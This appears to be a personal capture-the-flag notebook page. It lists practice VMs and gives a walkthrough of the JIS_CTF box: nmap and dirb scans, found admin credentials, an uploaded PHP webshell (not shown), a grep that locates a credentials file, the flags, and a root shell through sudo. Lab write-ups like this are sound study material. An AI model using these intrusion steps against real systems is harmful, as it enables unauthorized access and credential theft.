










Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
JIS_CTF
Nmap scan report for 192.168.56.117Host is up (0.000078s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
MAC Address: 08:00:27:69:0D:39 (Oracle VirtualBox virtual NIC)
root@kali:~# nmap -A -p- 192.168.56.117
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-10 20:36 EST
Nmap scan report for 192.168.56.117
Host is up (0.00041s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 af:b9:68:38:77:7c:40:f6:bf:98:09:ff:d9:5f:73:ec (RSA)
| 256 b9:df:60:1e:6d:6f:d7:f6:24:fd:ae:f8:e3:cf:16:ac (ECDSA)
|_ 256 78:5a:95:bb:d5:bf:ad:cf:b2:f5:0f:c0:0c:af:f7:76 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 8 disallowed entries
| / /backup /admin /admin_area /r00t /uploads
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
MAC Address: 08:00:27:69:0D:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.41 ms 192.168.56.117
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.20 seconds
root@kali:~#





username : admin
password : 3v1l_H@ck3r
The 2nd flag is : {7412574125871236547895214}
Log in:

---> Uploaded the php webshell
root@kali:~# dirb http://192.168.56.117/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Sun Nov 10 21:05:25 2019
URL_BASE: http://192.168.56.117/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.117/ ----
==> DIRECTORY: http://192.168.56.117/admin_area/
==> DIRECTORY: http://192.168.56.117/assets/
==> DIRECTORY: http://192.168.56.117/css/
==> DIRECTORY: http://192.168.56.117/flag/
+ http://192.168.56.117/index.php (CODE:302|SIZE:1228)
==> DIRECTORY: http://192.168.56.117/js/
+ http://192.168.56.117/robots.txt (CODE:200|SIZE:160)
+ http://192.168.56.117/server-status (CODE:403|SIZE:302)
---- Entering directory: http://192.168.56.117/admin_area/ ----
+ http://192.168.56.117/admin_area/index.php (CODE:200|SIZE:224)
---- Entering directory: http://192.168.56.117/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.117/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.117/flag/ ----
+ http://192.168.56.117/flag/index.html (CODE:200|SIZE:109)
---- Entering directory: http://192.168.56.117/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)


-----------------
END_TIME: Sun Nov 10 21:05:28 2019
DOWNLOADED: 13836 - FOUND: 5
root@kali:~#
$ cd /var/www/html
$ ls
admin_area
assets
check_login.php
css
flag
flag.txt
hint.txt
index.php
js
login.php
logout.php
robots.txt
uploaded_files
$ cat hint.txt
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)
The 3rd flag is : {7645110034526579012345670}
$
The 4th flag:
- Do a system wide search for files woth technawi in them:
$ grep -rnw --exclude-dir=proc 'technawi' / 2>/dev/null
/etc/subgid:3:technawi:165536:65536
/etc/mysql/conf.d/credentials.txt:3:username : technawi
/etc/subuid:3:technawi:165536:65536
/etc/passwd:30:technawi:x:1000:1000:technawi,,,:/home/technawi:/bin/bash
/etc/group:5:adm:x:4:syslog,technawi
/etc/group:18:cdrom:x:24:technawi
/etc/group:21:sudo:x:27:technawi
/etc/group:23:dip:x:30:technawi
/etc/group:35:plugdev:x:46:technawi
/etc/group:49:lxd:x:110:technawi
/etc/group:54:technawi:x:1000:
/etc/group:55:lpadmin:x:115:technawi
/etc/group:56:sambashare:x:116:technawi
Binary file /var/log/wtmp matches
/var/log/apt/history.log:59:Requested-By: technawi (1000)
/var/log/apt/history.log:65:Requested-By: technawi (1000)
/var/log/apt/history.log:77:Requested-By: technawi (1000)
/var/log/apt/history.log:83:Requested-By: technawi (1000)
/var/log/apt/history.log:89:Requested-By: technawi (1000)
/var/log/apt/history.log:95:Requested-By: technawi (1000)
/var/log/apt/history.log:101:Requested-By: technawi (1000)
/var/cache/debconf/config.dat:716:Value: technawi
/var/cache/debconf/config.dat-old:692:Value: technawi
/var/www/html/index.php:67: <a class="tzine" href="Powered">http://www.technawi.net">Powered by : Technawi[dot]net</a>
/var/www/html/hint.txt:1:try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)
$
IN /etc/mysql/conf.d/credentials.txt
$ cat credentials.txt
The 4th flag is : {7845658974123568974185412}
username : technawi
password : 3vilH@ksor
$

The 5th flag is : {5473215946785213456975249}
Good job :)
You find 5 flags and got their points and finish the first scenario....

technawi@Jordaninfosec-CTF01:~$ sudo -l
[sudo] password for technawi:
Matching Defaults entries for technawi on Jordaninfosec-CTF01:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User technawi may run the following commands on Jordaninfosec-CTF01:
(ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:~$ sudo su
root@Jordaninfosec-CTF01:/home/technawi# id
uid=0(root) gid=0(root) groups=0(root)
root@Jordaninfosec-CTF01:/home/technawi#
FIN